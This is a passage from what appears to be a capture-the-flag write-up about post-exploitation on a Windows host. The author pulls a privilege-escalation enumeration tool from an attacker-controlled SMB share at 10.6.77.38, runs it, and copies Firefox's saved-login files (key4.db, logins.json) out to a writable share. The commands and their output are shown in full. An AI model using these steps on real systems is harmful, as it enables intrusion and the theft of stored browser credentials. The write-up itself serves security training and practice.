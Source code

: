 Then to copy with windows


```
C:\Users\Share>copy \\10.6.77.38\kali\peas.exe c:\users\Share\peas.exe
copy \\10.6.77.38\kali\peas.exe c:\users\Share\peas.exe
        1 file(s) copied.

C:\Users\Share>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 3ABE-D44B

 Directory of C:\Users\Share

08/21/2022  05:48 PM    <DIR>          .
08/21/2022  05:48 PM    <DIR>          ..
04/20/2020  01:27 AM            13,312 gatekeeper.exe
08/21/2022  12:35 AM         1,965,056 peas.exe
               2 File(s)      1,978,368 bytes
               2 Dir(s)  15,750,787,072 bytes free

C:\Users\Share>peas.exe > pea.log
peas.exe > pea.log
```


I do this so that even if my shell dies, I can get the pea.log via the smb share (also I have write access there...so)


I can just wait until I see the pea.log file get data in it:

```
smb: \share\> dir
  .                                   D        0  Sun Aug 21 17:49:31 2022
  ..                                  D        0  Sun Aug 21 17:49:31 2022
  gatekeeper.exe                      A    13312  Mon Apr 20 01:27:17 2020
  pea.log                             A        0  Sun Aug 21 17:49:31 2022
  peas.exe                            A  1965056  Sun Aug 21 00:35:34 2022

                7863807 blocks of size 4096. 3845835 blocks available
smb: \share\> 

```

# firefox creds


was able to copy these two files


````
C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release>copy key4.db c:\users\share\.    
copy key4.db c:\users\share\.                                                                                      
        1 file(s) copied.                                                                                          
                              
                              
                              
C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release>copy logins.json c:\users\share\.
copy logins.json c:\users\share\.
        1 file(s) copied.


```
````